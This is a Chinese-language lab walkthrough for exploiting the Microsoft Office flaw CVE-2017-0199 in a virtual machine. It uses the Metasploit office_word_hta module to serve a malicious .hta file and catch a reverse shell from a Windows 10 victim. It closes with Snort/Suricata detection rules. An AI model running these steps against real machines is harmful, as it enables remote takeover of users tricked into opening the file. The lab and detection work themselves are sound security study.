

# 0x0 前言
### CVE-2017-0199 Description  
Microsoft Office 2007 SP3, Microsoft Office 2010 SP2, Microsoft Office 2013 SP1, Microsoft Office 2016, Microsoft Windows Vista SP2, Windows Server 2008 SP2, Windows 7 SP1, Windows 8.1 allow remote attackers to **execute arbitrary code** via a crafted document, aka "Microsoft Office/WordPad Remote Code Execution Vulnerability w/Windows API."

### Microsoft Office
如果malware是.doc類的可能需要KB3178710(?)以前的版本

> 1. 此CVE需要受害者下載並執行.doc或.hta之檔案，因此可能需要搭配釣魚手法
> 2. 取得權限為執行檔案的windows用戶
* ()內為測試時使用之環境
* <>為可變動或需視使用環境變動的欄位
* `斜體字`為指令

# 0x1 前置需求
* 虛擬機軟體 (VMware Workstation 15.5.7)
* 攻擊機 (Kali Linux 2020.4)
* 受攻擊機 (Windows 10 1709)

# 0x2 攻擊機環境建置
### msfconsole
1. `use exploit/windows/fileformat/office_word_hta`，使用CVE-2017-0199之module

2. `run`，不需修改optoins設定，run後將會開啟一web server負責提供malware **default.hta**之下載，並listen on reverse shell  

# 0x3 受攻擊機環境建置
1. 開啟瀏覽器，輸入2.2圖中的`[*] Local IP: http://<攻擊機ip>:8080/default.hta`，並下載**default.hta**

2. 雙擊**default.hta**執行

# 0x4 Exploit
### msfconsole
1. 此時可以看到剛剛還在listen的msfconsole已經取得session  

2. 輸入任意指令，會發現跳出sessoin  

3. `sessions -i`，查看session列表  

4. `sessions -i <Id>`，進入session Id  

5. 任意指令(getuid)  

# 0x5 Snort/Suricata Rule
1. alert tcp $EXTERNAL_NET $FILE_DATA_PORTS -> $HOME_NET any (msg:"FILE-OFFICE RTF objautlink url moniker file download attempt"; flow:to_client,established; flowbits:isset,file.rtf; file_data; content:"|5C|objautlink"; fast_pattern; content:"0e0c9ea79f9bace118c8200aa004ba90b"; distance:0; content:"68007400740070003a002f002f00"; within:50; metadata:policy max-detect-ips drop, policy security-ips drop, service ftp-data, service http, service imap, service pop3; reference:cve,2017-0199; classtype:misc-activity; sid:42189; rev:2;)
2. alert tcp $EXTERNAL_NET any -> $SMTP_SERVERS 25 (msg:"FILE-OFFICE RTF objautlink url moniker file download attempt"; flow:to_server,established; flowbits:isset,file.rtf; file_data; content:"|5C|objautlink"; fast_pattern; content:"0e0c9ea79f9bace118c8200aa004ba90b"; distance:0; content:"68007400740070003a002f002f00"; within:50; metadata:policy max-detect-ips drop, policy security-ips drop, service smtp; reference:cve,2017-0199; classtype:misc-activity; sid:42190; rev:2;)
3. alert tcp $EXTERNAL_NET $HTTP_PORTS -> $HOME_NET any (msg:"FILE-OFFICE RTF url moniker COM file download attempt"; flow:to_client,established; content:"Content-Type|3A| application/hta"; fast_pattern:only; http_header; file_data; content:"Wscript.Shell"; nocase; metadata:policy max-detect-ips drop, service http; reference:cve,2017-0199; classtype:attempted-admin; sid:42231; rev:3;)

# 0x6 Reference
* http://rewtin.blogspot.com/2017/04/cve-2017-0199-practical-exploitation-poc.html
* https://www.youtube.com/watch?v=XVvctN3maaU&ab_channel=Neutral8x9eR
* https://www.youtube.com/watch?v=Esg-K4ARzkM&ab_channel=Cosmic2x4

